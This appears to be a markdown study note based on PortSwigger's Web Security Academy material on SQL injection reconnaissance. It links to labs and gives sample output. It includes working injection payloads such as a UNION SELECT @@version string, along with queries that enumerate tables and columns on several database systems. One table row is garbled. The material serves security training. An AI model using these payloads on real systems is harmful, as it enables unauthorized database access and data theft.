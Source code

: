 # Examining the database

# Identifying Database Query

```sql
SELECT * FROM v$version
SELECT * FROM information_schema.tables
```

[Examining the database in SQL injection attacks | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database)

# **Querying the database type and version**

| Database type | Query                   |
|---------------|-------------------------|
| "Microsoft    | MySQL",SELECT @@version |
| Oracle        | SELECT * FROM v$version |
| PostgreSQL    | SELECT version()        |

## Attack Payload to Identify Database

This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used

```sql
' UNION SELECT @@version--

Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Lab

[**Lab: SQL injection attack, querying the database type and version on Oracle**](./lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle.md)

[**Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft.md)

# **Listing the contents of the database**

You can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
=====================================================
MyDatabase dbo Products BASE TABLE
MyDatabase dbo Users BASE TABLE
MyDatabase dbo Feedback BASE TABLE
```

## Lab

[**Lab: SQL injection attack, listing the database contents on non-Oracle databases**](./lab-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases.md)

# **Equivalent to information schema on Oracle**

On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying `all_tables`:

`SELECT * FROM all_tables`

And you can list columns by querying `all_tab_columns`:

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

## Lab

[**Lab: SQL injection attack, listing the database contents on Oracle**](./lab-sql-injection-attack-listing-the-database-contents-on-oracle.md)

